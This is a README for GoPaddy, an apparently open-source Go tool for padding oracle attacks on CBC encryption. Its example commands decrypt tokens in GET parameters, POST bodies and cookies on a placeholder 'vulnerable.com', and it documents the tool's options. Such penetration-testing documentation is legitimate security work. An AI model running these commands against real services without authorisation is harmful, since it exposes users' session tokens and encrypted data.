 # GoPaddy

A fast, Golang, concurrent tool to perform Padding Oracle attacks against CBC mode encryption.

![demo](demo.gif)


### Installation
```console
go get github.com/glebarez/GoPaddy
```

### Examples
- Decipher tokens in GET parameters
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- POST data
```console
GoPaddy -u "http://vulnerable.com/login" -post "token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Cookies
```console
GoPaddy -u "http://vulnerable.com/login" -cookie "auth=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````
### Note on tool chaining
All the fancy stuff (logo and progress tracking) is written to STDERR. <br>
Thus you may safely redirect STDOUT to a file, or pipe it with another tool. <br>
Only succesfully decrypted values will be written to redirection target.
You can supply (multiple) to-be-decrypted values into STDIN as well.

### Usage
```console
GoPaddy [OPTIONS] [CIPHER]
```

CIPHER:

	to-be-decrypted value (or token) that vulnerable server leaked to you.
	if not provided, values will be read from STDIN
	make sure you tip GoPaddy about the encoding nature with options -e and -r
						(e.g. base64-encoded ciphers)
	

OPTIONS:

-u

	Vilnerable URL (one that produces padding errors).
        Use $ character to define cipher placeholder for GET request.
	Example:
           if URL is "http://vulnerable.com/?parameter=$"
	   then HTTP request will be sent as "http://example.com/?parameter=payload"
	   the payload will be filled-in as a cipher, encoded using 
	   specified encoder and replacement rules (see options: -e, -r)

-err

	A padding error string as presented by the server.
        HTTP responses will be searched for this string to detect 
	padding oracle. Regex is supported.
        Only response body is matched.

-e

	Encoding, used by the server to encode binary ciphertext in HTTP context.
	This option is used in conjunction with -r option (see below)
	Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-r

	Character replacement rules that server applies to encoded ciphertext.
	Use odd-length strings, consisting of character pairs: <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~',
		then use -r "/!+-=~"

-cookie

	Cookie value to be decrypted in HTTP reqeusts.
	Use $ character to define cipher placeholder.

-post

	If you need to perform POST requests (instead of GET), 
	then provide string payload for POST request body in this parameter.
	Use $ character to define cipher placeholder.
        Example: 
                  -post "vuln_param=$"
          

-ct

	Content-Type to be set in HTTP requests.
        This option is only effective when -post option is used.
	If not specified, Content-Type will be inferred automatically
        based on data, provided in -post option.
	
-b

	Block length used in encrypting (always 16 for AES)
	Supported values:
		8u
		16 *default*
		32

-p

	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy

	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP
